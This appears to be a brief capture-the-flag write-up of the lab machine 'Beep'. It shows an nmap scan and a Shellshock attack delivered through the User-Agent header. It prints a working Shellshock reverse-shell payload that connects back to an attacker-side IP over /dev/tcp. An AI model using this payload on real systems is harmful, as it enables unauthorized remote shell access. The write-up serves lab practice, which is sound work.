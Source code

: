 Beep without metasploit

![Beep](https://user-images.githubusercontent.com/55708909/91585921-55029e80-e972-11ea-85c4-3a37089d94a2.png)


Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Beep -p- 10.10.10.7

![Beep_nmap](https://user-images.githubusercontent.com/55708909/91586333-d3f7d700-e972-11ea-8b90-d5c384bd3ff1.png)

I am quickly gonna take down this machine as i am feeling tired and its already too late .

I am gonna apply shockshell vulnnerability in user agent and will get root priviledges.

![Beep_login](https://user-images.githubusercontent.com/55708909/91586720-64ceb280-e973-11ea-9f74-20639f470ce8.png)

As you can see we now have root priviledges by applying shell shock vuln in the user agent

() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1

![Beep_shock](https://user-images.githubusercontent.com/55708909/91626607-316d4180-e9ce-11ea-945b-00265b917d9e.png)




